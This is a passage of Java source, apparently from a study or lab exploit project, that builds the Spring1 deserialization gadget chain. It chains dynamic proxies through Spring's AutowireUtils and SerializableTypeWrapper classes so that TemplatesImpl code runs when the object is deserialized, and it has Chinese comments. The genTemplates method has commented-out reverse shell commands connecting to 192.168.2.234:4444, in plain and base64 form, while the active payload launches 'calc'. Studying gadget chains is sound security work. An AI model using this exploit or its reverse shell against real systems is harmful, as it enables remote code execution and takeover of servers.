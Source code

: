 ```java
        ObjectFactory objectFactoryProxy = (ObjectFactory) Proxy.newProxyInstance(Spring1.class.getClassLoader(), new Class[]{ObjectFactory.class}, templatesImplInvocationHandler);

        Class<?> objectFactoryDelegatingInvocationHandler = Class.forName("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler");
        Constructor<?> ofdihCtor = objectFactoryDelegatingInvocationHandler.getDeclaredConstructors()[0];
        ofdihCtor.setAccessible(true);
        InvocationHandler ofpInvocationHandlerInstance = (InvocationHandler)ofdihCtor.newInstance(objectFactoryProxy);
        Type typeTemplatesProxy = (Type) Proxy.newProxyInstance(Spring1.class.getClassLoader(), new Class[]{Type.class, Templates.class}, ofpInvocationHandlerInstance);


        Map<String, Object> map = new HashMap<>();
        map.put("getType", typeTemplatesProxy);
        InvocationHandler getTypeMappingInvocationHandler = (InvocationHandler)aihCtor.newInstance(Override.class, map);
        Class<?> typeProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
        Object typeProviderProxy = Proxy.newProxyInstance(Spring1.class.getClassLoader(), new Class[]{typeProvider}, getTypeMappingInvocationHandler);


        // -----------------下边的这段代码就不用关注了-----------------
        Class<?> methodInvokeTypeProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
        Constructor<?> mitpCtor = methodInvokeTypeProvider.getDeclaredConstructors()[0];
        mitpCtor.setAccessible(true);
        // 把构建好的动态代理传给MethodInvokeTypeProvider内部的provider属性
        final Object mitp = mitpCtor.newInstance(typeProviderProxy, Object.class.getMethod("getClass", new Class[] {}), 0);
        final Field field = mitp.getClass().getDeclaredField("methodName");
        field.setAccessible(true);
        field.set(mitp, "getOutputProperties");

        // 调用序列化方法把构造的MethodInvokeTypeProvier对象写入序列化文件
        serialize(mitp);
        // 从序列化文件中读取对象
        unSerialize();

    }
	
    public static void serialize(Object obj)throws Exception {
        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.flush();
        oos.close();
        fos.close();
    }
    public static void unSerialize() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object ignore = (Object) ois.readObject();
    }
    public static TemplatesImpl genTemplates() throws Exception {
        // bash -c {echo,bash -i >& /dev/tcp/192.168.2.234/4444 0>&1}|{base64,-d}|{bash,-i}
        // bash -c {echo,<base64反弹shell>}|{base64,-d}|{bash,-i}
        // String shellcode = "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMjM0LzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}";
        String shellcode = "calc";
```